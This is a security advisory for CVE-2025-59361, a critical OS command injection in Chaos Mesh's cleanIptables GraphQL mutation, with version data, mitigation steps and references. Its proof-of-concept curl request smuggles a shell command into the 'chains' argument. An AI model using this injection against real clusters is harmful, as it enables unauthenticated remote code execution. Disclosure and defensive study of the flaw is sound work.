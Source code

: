 ```yaml
---
description: CVE-2025-59361, CRITICAL, OS command injection in Chaos Mesh via the cleanIptables mutation
title: Chaos Mesh cleanIptables command injection
date_published: "2025-09-15"
last_updated: "2025-09-15"
xray_id: JFSA-2025-001449536
vul_id: CVE-2025-59361
cvss: 9.8
severity: critical
discovered_by: Natan Nehorai
type: vulnerability

---
```


## Summary

OS command injection in Chaos Mesh via the cleanIptables mutation

## Component

github.com/chaos-mesh/chaos-mesh

## Affected versions

(,2.7.2]

## Description

The cleanIptables mutation in Chaos Controller Manager is vulnerable to OS command injection. In conjunction with CVE-2025-59358, this allows unauthenticated in-cluster attackers to perform remote code execution across the cluster.


## PoC

```shell
curl -X POST -H "Content-Type: application/json" -d /
'{"query": "mutation CleanIptablesInPod { 
pod(ns: \"chaos-mesh\", name: \"chaos-dashboard-5c6575bd9f-b5tqg\") {
 cleanIptables(chains: [\"INPUT;touch /tmp/pwned; \", \"OUTPUT\", \"FORWARD\", \"CHAOS-MESH-INPUT\", \"CHAOS-MESH-OUTPUT\"])
 }
 }"}' http://controller-manager-host:10082/query
```



## Vulnerability Mitigations

If upgrading Chaos-Mesh to the fixed version is not possible, re-deploy the Helm chart and disable the **chaosctl** tool and port:

```shell
helm install chaos-mesh chaos-mesh/chaos-mesh -n=chaos-mesh --version 2.7.x --set enableCtrlServer=false
```



## References

[Fix PR](https://github.com/chaos-mesh/chaos-mesh/pull/4702)

[JFrog Technical Blog](https://jfrog.com/blog/chaotic-deputy-critical-vulnerabilities-in-chaos-mesh-lead-to-kubernetes-cluster-takeover)

